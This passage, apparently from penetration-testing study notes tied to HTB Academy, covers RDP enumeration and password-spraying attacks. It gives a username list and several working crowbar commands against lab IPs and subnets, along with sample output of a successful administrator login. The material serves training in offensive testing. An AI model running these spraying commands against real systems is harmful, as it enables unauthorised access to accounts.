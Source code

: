 ### Key Information to Extract
- **RDP service version** (Windows version identification)
- **Authentication methods** supported
- **Certificate information** (self-signed vs CA)
- **Encryption levels** available
- **Domain membership** status

---

## ⚔️ Authentication Attacks

### 1. Password Spraying Attacks

#### Why Password Spraying?
```
Traditional brute force: Risk of account lockout
Password spraying: Single password against multiple users
Goal: Avoid triggering password policy restrictions
```

#### HTB Academy Username List
```bash
# Create username list
cat > usernames.txt << EOF
root
test
user
guest
admin
administrator
EOF
```

### 2. Crowbar Password Spraying

#### Basic Crowbar Usage
```bash
# HTB Academy example - single password against user list
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

# Expected successful output
2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

#### Advanced Crowbar Options
```bash
# Target multiple hosts
crowbar -b rdp -s 192.168.1.0/24 -U usernames.txt -c 'Spring2024!'

# Specify custom port
crowbar -b rdp -s 192.168.1.100:3390 -U usernames.txt -c 'password123'

# Multiple passwords (careful with lockouts)
crowbar -b rdp -s 192.168.1.100 -U usernames.txt -C passwords.txt
```
